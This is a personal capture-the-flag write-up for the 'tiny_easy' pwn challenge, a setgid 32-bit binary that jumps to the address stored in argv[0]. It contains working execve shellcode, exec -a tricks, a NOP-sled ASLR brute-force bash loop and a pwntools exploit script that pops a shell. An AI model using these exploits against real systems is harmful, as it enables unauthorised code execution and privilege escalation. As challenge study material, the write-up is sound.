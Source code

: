 *"I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy."*

we get a 32 bit elf with corrupted section header size...
the binary have a `setgid` bit to `tiny_easy_pwn` and we can read the flag with this permissions. 
when we run it we get a segmentation fault. [Meaning](https://stackoverflow.com/questions/2346806/what-is-a-segmentation-fault) we accessed a memory that does not belongs to us. 

```asm
pop     eax
pop     edx
mov     edx, [edx]
call    edx
```
that's the disassembly. so we take the second parameter on the stack, then take it's value and call to it. I think that it takes the first string value from `argv`. let's check with `gdb`.

well `objdump` didn't successfully disassembled this binary... with `gdb` we stop at a crash.  
Ok I found on the internet that we could use `start` to only initialize the run and then we can single step.
![[Pasted image 20231110170631.png]]
I was right.
now the idea is to change `argv[0]` to the address we want to jump and boom, we get execution redirection. with that I can jump to the stack and then execute my shellcode.
the problem is that we don't know the stack addresses because of `aslr`.
```bash
[*] '/home/tiny_easy/tiny_easy'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```
nice :).

let's play with the code we have. if I call the `start` again then we will get the next value on the stack (because the RA was popped to `eax`). we will get to jump to the value of the pointer inside the stack (because of the last `mov`).

maybe there is no problem with the `aslr`?

I can brute force the stack addresses. like in passcode :)

## The Exploit
1. change `argv[0]` to an address on the stack
2. change `argv[1]` to a shellcode that opens a shell.
let's check this idea with `gdb`.
```python
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```
there is a weird behavior  that when calling `int 0x80` the shell doesn't popes up.

here is another shellcode that `setuid() execve(); exit();` 
```python
'\x31\xc0\x31\xdb\x31\xc9\xb0\x17\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80'
```
this one works fine. the only problem is that we don't need the `setuid`. this one is `execve()` and `exit` but it executes `/bin/ash`
```python
'\x31\xc0\x50\x68\x2f\x61\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80'
```
modified
```python
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80'
```
this is the final shellcode :)
`set {int}0xffffce44 = 0xffffce85` without `aslr`.
meaning we need to set `argv[0]` to `0xffffce85`

the problem is to set `argv[0]` to a value and debug this. maybe I can use a link?
`ln -s oldname newname` this works but the file gets added the `PWD` .
I tried to delete `PWD` it didn't helped.

let's try to debug exec -a 

```bash
(exec -a $'I\xce\xff\xff' ./tiny_easy $'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80')
```
this is the idea

`(exec -a 'false name' ./test b c)`
this idea works but the problem is that the address is not the same. let's disable `aslr`.

I can now try to run this program 2 million times :).
it's harder then it looks.
maybe it's better if I found something that doesn't includes messing with the stack addresses?

if I could write the code to the code segment that would be cool or to the GOT? I mean to a constant location.

well if the entire stack would be filled with `nops` and I would jump to the lower bytes of the stack then I will hit the shellcode.
the location of the shellcode is different if the name is shorter 
if the location of `argv[0]` is at `0xffffce45` then `argv[1]` will be at `0xffffce45 + length of argv[0]` 

Choose a multiple of 4 between 0xff800000 and of 0xfffffffc at random. then run the program until you get a shell.
```bash
 (exec -a $'I\xce\xff\xff' ./tiny_easy `python2 -c "print('\x90'* 0x10000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80')"`)
```
Ok now I know for sure that in `tiny_easy`  we must execute the shellcode from the stack.
because in `tiny` we have NX enabled :).

boom the loop I looked for: https://unix.stackexchange.com/questions/486180/construct-a-while-loop-around-a-command-throwing-a-segmentation-fault

```bash
#! /bin/bash

shellcode=`python2 -c "print('\x90' * 0x1f000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80')"`

shellcode_stack_address=$'I\xce\xff\xff'

  
  

(exec -a $shellcode_stack_address $1 $shellcode)

while [ $? -ge 128 ]

do

    (exec -a $shellcode_stack_address $1 $shellcode)

done
```
this is the code. This doesn't work... it did :)

## writeups
```python
 from pwn import *
 
 dic = {}
 dic["SHELLCODE"] = "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
 
 while True:
     try:
         io = process(["\x11\x11\x88\xff"],executable="./tiny_easy",env=dic)
 
 
         io.sendline("ls")
 
         o = io.recv()
         print(o)
         if (len(o) > 0):
             io.interactive()
         exit()
     except Exception as e:
         print(e)

```
wow you could do it with python!
